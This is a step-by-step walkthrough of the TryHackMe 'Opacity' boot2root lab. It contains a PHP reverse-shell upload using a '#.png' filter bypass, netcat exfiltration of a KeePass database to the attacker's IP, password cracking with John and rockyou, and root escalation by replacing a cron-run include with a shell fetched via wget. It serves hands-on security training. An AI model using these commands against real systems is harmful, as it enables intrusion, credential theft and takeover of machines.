


# Opacity Room

[Opacity](https://tryhackme.com/room/opacity) is a Boot2Root made for pentesters and cybersecurity enthusiasts.

## Port scan

Let's begin by performing a basic `nmap` scan.

```
$ nmap -A 10.10.29.131                
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-08 18:50 -03
Nmap scan report for 10.10.29.131
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0fee2910d98e8c53e64de3670c6ebee3 (RSA)
|   256 9542cdfc712799392d0049ad1be4cf0e (ECDSA)
|_  256 edfe9c94ca9c086ff25ca6cf4d3c8e5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2023-04-08T21:50:58
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.32 seconds
```

There's a HTTP server running at port `80`. Let's check its initial page.



## Directory scan

Now that we know there is a HTTP server running, let's perform a directory scan using `gobuster`.

```
$ gobuster dir -u 10.10.29.131 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.29.131
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/08 18:51:24 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.29.131/css/]
/cloud                (Status: 301) [Size: 312] [--> http://10.10.29.131/cloud/]
/server-status        (Status: 403) [Size: 277]
Progress: 220558 / 220561 (100.00%)
===============================================================
2023/04/08 20:14:09 Finished
===============================================================
```

Now let's check what's in the `cloud` directory.



We can upload images into the server, but maybe we could try something else...

## Reverse shell

Let's try a reverse shell. You can find one [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) or, if you are using Kali, there's already one available at `/usr/share/webshells/php/php-reverse-shell.php`.

You need to modify the source code to indicate where you want the reverse shell thrown back to. Edit the following lines of `php-reverse-shell.php`:

```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Then, you need to set a HTTP server on your machine, in order to upload the reverse shell on the `/cloud` directory of the target system:

```
python -m http.server 80
```

Set a listener on the choosen port:

```
nc -lnvp 6666
```

Open the browser and navigate to `http://<target_IP>/cloud` to upload the reverse shell. You can use a trick to decieve the server into thinking that the file you are uploading is a `.png` file just adding `#.png` after the `.php` extension.

```
http://<your_IP>/shell.php#.png
```

After that, you'll need to check if your shell was downloaded from your local server

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.29.131 - - [08/Apr/2023 22:29:15] "GET /shell.php HTTP/1.1" 200 -
```

Great! Now all you need to do is wait for the reverse shell.

```
connect to [redacted] from (UNKNOWN) [10.10.29.131] 54870
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 01:28:41 up 13 min,  0 users,  load average: 0.00, 0.29, 0.49
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

You can upgrade your shell using the command below:

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now, let's explore the system to see what we can find.

```
www-data@opacity:/$ whoami
whoami
www-data
www-data@opacity:/$ pwd
pwd
/
www-data@opacity:/$ cd home
cd home
www-data@opacity:/home$ ls   
ls
sysadmin
www-data@opacity:/home$ cd sysadmin
cd sysadmin
www-data@opacity:/home/sysadmin$ ls -la
ls -la
total 44
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22 08:16 .
drwxr-xr-x 3 root     root     4096 Jul 26  2022 ..
-rw------- 1 sysadmin sysadmin   22 Feb 22 08:09 .bash_history
-rw-r--r-- 1 sysadmin sysadmin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin 3771 Feb 25  2020 .bashrc
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .cache
drwx------ 3 sysadmin sysadmin 4096 Jul 28  2022 .gnupg
-rw-r--r-- 1 sysadmin sysadmin  807 Feb 25  2020 .profile
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .ssh
-rw-r--r-- 1 sysadmin sysadmin    0 Jul 28  2022 .sudo_as_admin_successful
-rw------- 1 sysadmin sysadmin   33 Jul 26  2022 local.txt
drwxr-xr-x 3 root     root     4096 Jul  8  2022 scripts
www-data@opacity:/home/sysadmin$ 
```

The user flag (`local.txt`) is there, but we do not have the required permission to read it.

Let's navigate through other directories and see if there's something that can help in privilege escalation.

There's a file with `.kdbx` extension. This could be a KeePass file.

```
www-data@opacity:/opt$ ls -la
ls -la
total 12
drwxr-xr-x  2 root     root     4096 Jul 26  2022 .
drwxr-xr-x 19 root     root     4096 Jul 26  2022 ..
-rwxrwxr-x  1 sysadmin sysadmin 1566 Jul  8  2022 dataset.kdbx
```

Let's download the file.

In your machine, set up a listener:

```
$ nc -lnvp 9999 > dataset.kdbx
```

In the target machine, connect to your local machine:

```
www-data@opacity:/opt$ nc <your-ip> 9999 < dataset.kdbx
```

Now, in your machine, you can see that the file is indeed a KeePass password database.

```
$ file dataset.kdbx           
dataset.kdbx: Keepass password database 2.x KDBX
```

## Privilege Escalation

`keepass2john` processes input KeePass 1.x and 2.x database files into a format suitable for use with John.

```
$ keepass2john dataset.kdbx > keepasshash.txt
```

The hash was created.

```
$ cat keepasshash.txt 
dataset:$keepass$*2*100000*0*2114f635de17709ecc4a2be2c3403135ffd7c0dd09084c4abe1d983ad94d93a5*2bceccca0facfb762eb79ca66588135c72a8835e43d871977ff7d3e9db0ffa17*cae9a25c785fc7f16772bb00bac5cc82*b68e2c3be9e46e8b7fc05eb944fad8b4ec5254a40084a73127b4126408b2ff46*b0afde2bd0db881200fc1c2494baf7c28b7486f081a82e935411ab72a27736b4
```

Now, use John to crack the password.

```
$ john keepasshash.txt --wordlist=/usr/share/wordlists/rockyou.txt          
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>      (dataset)     
1g 0:00:00:13 DONE (2023-04-08 21:06) 0.07396g/s 64.49p/s 64.49c/s 64.49C/s chichi..walter
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Next you can use the KeePassXC tool to extract the password.

1) Open KeePassXC
2) Select "Open existing database"
3) Select the `dataset.kdbx` file
4) Enter the password found by John
5) Press "Unlock"
6) In the "General" tab, click on the eye symbol to show the password. Copy it.

Now we can SSH as sysadmin, using the new found password.

```
ssh sysadmin@10.10.29.131
```

Let's read the first flag in `local.txt`.

```
sysadmin@opacity:~$ ls
local.txt  scripts
sysadmin@opacity:~$ cat local.txt
<redacted>
```

## Root

Next we need to gain root access in order to read the root flag. Let's see what we can find...

```
sysadmin@opacity:~$ ls -la
total 44
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22 08:16 .
drwxr-xr-x 3 root     root     4096 Jul 26  2022 ..
-rw------- 1 sysadmin sysadmin   22 Feb 22 08:09 .bash_history
-rw-r--r-- 1 sysadmin sysadmin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin 3771 Feb 25  2020 .bashrc
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .cache
drwx------ 3 sysadmin sysadmin 4096 Jul 28  2022 .gnupg
-rw------- 1 sysadmin sysadmin   33 Jul 26  2022 local.txt
-rw-r--r-- 1 sysadmin sysadmin  807 Feb 25  2020 .profile
drwxr-xr-x 3 root     root     4096 Jul  8  2022 scripts
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .ssh
-rw-r--r-- 1 sysadmin sysadmin    0 Jul 28  2022 .sudo_as_admin_successful

sysadmin@opacity:~$ cd scripts
sysadmin@opacity:~/scripts$ ls -la
total 16
drwxr-xr-x 3 root     root     4096 Jul  8  2022 .
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22 08:16 ..
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

There is a script owned by root. Let's check it.

```
sysadmin@opacity:~/scripts$ cat script.php

<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

It is a backup script that includes another script at `lib/backup.inc.php`. Let's see if we can modify this file.

```
sysadmin@opacity:~/scripts$ ls -la
total 16
drwxr-xr-x 3 root     root     4096 Jul  8  2022 .
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22 08:16 ..
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

`backup.inc.php` is owned by root so we are not allowed to change its contents.

However, as user `sysadmin`, we have execution rights on the `lib` directory. This allows us to remove `backup.inc.php` and add another file with the same name, but with a different content. We will add a script that spawns a terminal. Since `script.php` includes `backup.inc.php` and runs with root privileges, it will ultimately spawn a root terminal.

```
sysadmin@opacity:~/scripts$ cd lib
sysadmin@opacity:~/scripts/lib$ ls -la
total 132
drwxr-xr-x 2 sysadmin root  4096 Jul 26  2022 .
drwxr-xr-x 3 root     root  4096 Jul  8  2022 ..
-rw-r--r-- 1 root     root  9458 Jul 26  2022 application.php
-rw-r--r-- 1 root     root   967 Jul  6  2022 backup.inc.php
-rw-r--r-- 1 root     root 24514 Jul 26  2022 bio2rdfapi.php
-rw-r--r-- 1 root     root 11222 Jul 26  2022 biopax2bio2rdf.php
-rw-r--r-- 1 root     root  7595 Jul 26  2022 dataresource.php
-rw-r--r-- 1 root     root  4828 Jul 26  2022 dataset.php
-rw-r--r-- 1 root     root  3243 Jul 26  2022 fileapi.php
-rw-r--r-- 1 root     root  1325 Jul 26  2022 owlapi.php
-rw-r--r-- 1 root     root  1465 Jul 26  2022 phplib.php
-rw-r--r-- 1 root     root 10548 Jul 26  2022 rdfapi.php
-rw-r--r-- 1 root     root 16469 Jul 26  2022 registry.php
-rw-r--r-- 1 root     root  6862 Jul 26  2022 utils.php
-rwxr-xr-x 1 root     root  3921 Jul 26  2022 xmlapi.php
```

Let's begin by removing the original file.

```
sysadmin@opacity:~/scripts/lib$ rm -rf backup.inc.php
```

On your machine, set up a listener on the port you have configured on `shell.php`.

```
$ nc -lnvp 7777               
```

On the target machine, download `shell.php` and name it as `backup.inc.php`.

```
sysadmin@opacity:~/scripts/lib$ wget http://<your_IP>/shell.php -O backup.inc.php
--2023-04-09 02:07:25--  http://<your_IP>/shell.php
Connecting to <your_IP>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: ‘backup.inc.php’

backup.inc.php                          100%[============================================================================>]   5.36K  --.-KB/s    in 0s      

2023-04-09 02:07:25 (19.6 MB/s) - ‘backup.inc.php’ saved [5493/5493]
```

Wait for `script.php` to run, triggering `backup.inc.php` to spawn the reverse shell.

```
$ nc -lnvp 7777               
listening on [any] 7777 ...
connect to [redacted] from (UNKNOWN) [10.10.29.131] 57000
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 02:08:01 up 52 min,  1 user,  load average: 0.00, 0.01, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sysadmin pts/1    redacted         02:01   36.00s  0.03s  0.03s -bash
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
#
```

Now you can capture the root flag:

```
# cd /root
# ls -la
total 40
drwx------  5 root root 4096 Feb 22 08:51 .
drwxr-xr-x 19 root root 4096 Jul 26  2022 ..
lrwxrwxrwx  1 root root    9 Jul 26  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Feb 22 08:16 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root   33 Jul 26  2022 proof.txt
-rw-r--r--  1 root root   66 Feb 22 08:16 .selected_editor
drwx------  3 root root 4096 Feb 22 08:51 snap
drwx------  2 root root 4096 Jul 26  2022 .ssh
-rw-r--r--  1 root root  215 Feb 22 08:08 .wget-hsts
# cat proof.txt
<redacted>
```

With this last step, you have finished the boot2root challenge!
